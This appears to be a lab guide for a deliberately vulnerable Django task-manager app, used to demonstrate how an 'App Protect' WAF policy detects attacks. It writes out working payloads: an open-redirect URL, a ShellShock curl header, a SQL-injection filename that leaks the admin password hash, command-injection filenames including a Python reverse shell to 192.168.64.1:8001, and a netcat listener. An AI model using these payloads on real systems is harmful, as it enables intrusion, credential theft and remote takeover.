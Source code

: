 # Instructions for exploiting vulnerabilities in the djangonv app

## App Protect Policy

Before beginning, some adjustments need to be made to the App Protect policy in order to allow some of the (poorly written) code to run:

In the Policies section of your application group, click the 'configure policy' icon that corresponds to 'Open Redirect'.

In the Open Redirect Policy Configuration, click the '+' and add a rule to allow redirections that occur naturally within the application.

For example, if you're running the application on http://127.0.0.1:8000, add a rule that looks like this:

http://127.0.0.1:8000/*

You can, then, enter text to preview the match with:

http://127.0.0.1:8000/taskManager/login
-or-
http://127.0.0.1:8000/taskManager/logout 


## Exploits

### Open Redirect Vulnerability

The /taskManager/logout endpoint is susceptible to an open redirect.
Threat actors can leverage these types of vulnerabilities to redirect the user's browser to a URL of their choice.  
The typical exploit vector is via a malicious embedded link in an email.

Demonstrate the vulnerability by pasting the following into the browser's URL space:
```
http://127.0.0.1:8000/taskManager/logout?redirect=http://www.yahoo.com
```

### Malicious Payload (Intrusion Prevention)
Open a terminal window and paste in the following (ShellShock) exploit:
```
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8000
```
Note: The application doesn't actually suffer from the ShellShock vulnerability.  But, App Protect's Malicious Payload algorithms will pick up on the attempts.
### Remote Command Execution

To trigger a Remote Command Execution (that's actually both a RCE and SQLi..), do this:

1. Go to http://127.0.0.1:8000/ and click "Login"

2. Login to the application
```
user / user123
```
3. Click the link for the "demo project".

4. Click the "Add files" link.  

5. Pick any file from your local computer, and use the following payload for the filename:
```
'||(SELECT password FROM auth_user WHERE username='admin')||'
```
Once this exploit has succeeded, you should see the file in the project file list. The filename contains the MD5 hash of the password of the admin user (after the "md5$"). You should be able to crack this password using JTR or rainbow tables or other.

### OS Command Injection:

In the same place as in for the attack above ("My Projects" --> project you created, add files).
Also pick any file from your local computer, but for the payload use:

An innocent sleep statement (to demonstrate that we can run any command):
```
some_file_name; sleep 1m
```
You'll notice that (without App Protect), the browser will "sleep" for 1 minute.


python reverse shell:
```
some_file_name; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.1",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Note:  You'll need to set up a listener on an external host in order for this reverse shell to actually connect.  In this case the host is at 192.168.64.1 and is listening on port 8001.

For example:
```
nc -nvlp 8001
```
Note:  netcat syntax may vary from system to system.

